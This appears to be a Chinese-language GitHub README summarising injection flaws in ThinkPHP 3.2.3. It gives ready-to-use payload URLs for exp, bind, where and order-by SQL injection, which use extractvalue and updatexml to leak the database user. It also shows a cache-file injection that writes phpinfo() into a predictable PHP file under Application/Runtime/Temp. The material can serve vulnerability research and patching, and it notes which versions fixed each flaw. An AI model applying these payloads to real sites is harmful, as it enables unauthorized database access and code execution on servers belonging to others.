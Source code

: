 # tp3
tp3注入总结。


注入漏洞版本3.2.3听说是tp3使用最广泛的版本，截止到2021到的今天应该都已经全部升级到3.2.5了吧。      
tp3最后一个版本3.2.5修复漏洞。   

附加了一个缓存的洞，出境比较高。   

## exp注入
```
$User->field('username,age')->where(array('username'=>$name))->select();
```

直接传数组，第一个参数是exp表达式直接放过。
接收参数如果没有使用I方法，而是直接使用$_GET等接收外部变量，那么这里就有sql注入的问题。   
```
http://tp.test:8888/index.php/home/index/test?name[0]=exp&name[1]=='1' and (extractvalue(1,concat(0x7e,(select user()),0x7e))) #
```

## update注入
```
        $res = $User->where(array('name'=>$name))->save($data);
```
利用I方法获取输入时并没有过滤BIND，后面修过一次过滤了BIND。    
如果直接$_GET等接收外部变量一定存在       
```
http://tp.test:8888/index.php/home/index/test?name[0]=bind&name[1]=0 and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## where 注入
```
  	$res = $User->find($id);
```

 传入可控的where条件导致，delete(), select() ，find()方法具有相同问题，也在ThinkPHP3.2.4中被修复    
 ```
http://tp.test:8888/home/index/test?id[where]=(1=1) and (updatexml(1,concat(0x7e,(select user()),0x7e),1))--+
```
## order by 注入

```
res = $User->order($order)->find();
```
order参数可控的场景   
```
http://tp.test:8888/home/index/test?order=updatexml(1,concat(0x7e,(select%20user()),0x7e),1)
```

## 缓存漏洞
在TP5一些版本中也有这个漏洞，但是TP5的入口文件更加安全，这个漏洞并一定能利用。    
```
http://tp.test:8888/home/index/test?name=%0d%0aphpinfo();%0d%0a//   
```
```
0x0d - \r, carrige return 回车
0x0a - \n, new line 换行
Windows 中换行为0d 0a
UNIX 换行为 0a
```

参数名`name`决定泄露缓存文件名，
```
S('name',$name);
```
md5(name)=b068931cc450442b63f5b3d276ea4297，   
文件名则为：b068931cc450442b63f5b3d276ea4297.php，   
默认目录为Application/Runtime/Temp，然后访问我们的php文件   




# 参考



- https://github.com/top-think/thinkphp   
- https://xz.aliyun.com/t/2630
- https://www.freebuf.com/vuls/282906.html
- 









